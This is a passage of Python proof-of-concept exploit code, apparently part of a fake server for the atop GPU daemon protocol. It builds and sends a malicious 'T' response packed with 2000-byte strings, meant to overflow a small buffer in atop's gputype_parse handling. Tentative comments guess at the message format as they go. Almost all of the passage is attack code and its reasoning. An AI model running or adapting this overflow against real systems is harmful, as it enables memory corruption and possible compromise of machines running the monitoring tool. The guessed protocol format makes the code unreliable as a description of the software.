             # This implies the 'T' response itself contains the long strings, and `gputype_parse`
            # stores pointers to *those* strings. Then 'S' response triggers the copy.
            
            # Let's make the 'T' response data a single, very long string that will be interpreted as a bus ID or type.
            # The `length` in the prelude should be large enough to cause `atopgpud` to allocate a large buffer.
            # The actual string within that buffer will be the overflow trigger.
            
            # Let's try sending a single long string as the 'T' response data.
            # The `gputype_parse` function expects a specific format.
            # "The `gputype_parse` function reads the bus ID and GPU type strings.
            # It stores pointers to these strings in the `pergpu` struct."
            # This means the 'T' response contains the strings that `gputype_parse` will process.
            
            # Let's assume the 'T' response format is:
            # <num_gpus (4 bytes)><gpu0_busid_str><null_terminator><gpu0_type_str><null_terminator>...
            
            num_gpus = 1
            malicious_busid = b'A' * 2000 # This will be copied into a small buffer later
            malicious_type = b'B' * 2000
            
            t_data = struct.pack('<I', num_gpus) + malicious_busid + b'\0' + malicious_type + b'\0'
            t_response = create_malicious_response('T', len(t_data), t_data.decode('latin-1')) # Use latin-1 for byte string to str conversion
            conn.sendall(t_response)
            print(f"Sent malicious 'T' response of length {len(t_response)}")
